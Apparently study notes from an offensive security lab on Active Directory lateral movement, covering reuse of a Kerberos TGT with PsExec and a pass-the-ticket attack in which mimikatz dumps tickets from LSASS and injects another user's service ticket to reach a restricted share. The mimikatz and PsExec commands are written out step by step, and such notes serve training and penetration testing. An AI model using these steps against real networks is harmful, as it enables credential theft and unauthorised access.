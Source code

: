 	- We will use *PsExec*
		- PsExec can run a command remotely but does not accept password hashes
	- Since we have generated Kerberos tickets and operate in the context of _jen_ in the PowerShell session, we can reuse the TGT to obtain code execution on the files04 host.
		- `cd C:\tools\SysinternalsSuite\`
		- `.\PsExec.exe \\files04 cmd`
		- `whoami`
		- `hostname`
	- As evidenced by the output, we have successfully reused the Kerberos TGT to launch a command shell on the files04 server.

#### Pass the Ticket

*Pass the Ticket attack*
	- Takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.
	- In addition, if the service tickets belong to the current user, then no administrative privileges are required.

Scenario:
	- In this scenario, we are going to abuse an already existing session of the user dave. The dave user has privileged access to the backup folder located on WEB04 whereas our logged-in user jen does not.

Example:
	- To demonstrate the attack angle, we are going to extract all the current TGT/TGS in memory and inject dave's WEB04 TGS into our own session. This will allow us to access the restricted folder.
	- Setup:
		- Let's first log in as jen to CLIENT76 and verify that we are unable to access the resource on WEB04. To do so, we'll try to list the content of the \\web04\backup folder from an administrative PowerShell command line session.
			- `whomai`
			- `ls \\web04\backup`
			- output -> access denied
	- Confirming that jen has no access to the restricted folder, we can now launch **mimikatz**, enable debug privileges, and export all the TGT/TGS from memory with the **sekurlsa::tickets /export** command
		- `privilege::debug`
		- `sekurlsa::tickets /export`
			- The above command parsed the *LSASS* process space in memory for any TGT/TGS, which is then saved to disk in the *kirbi* **mimikatz** format.
	- Inspecting the generated tickets indicates that dave had initiated a session. We can try to inject one of their tickets inside jen's sessions.
	- Verify newly generated tickets
		-`dir *.kirbi`
	- As many tickets have been generated, we can just pick any TGS ticket in the **dave@cifs-web04.kirbi** format and inject it through mimikatz via the **kerberos::ptt command**
		- `kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`
	- Verify ticket
		- `klist`
	- Confirm successful
		- `ls \\web04\backup`
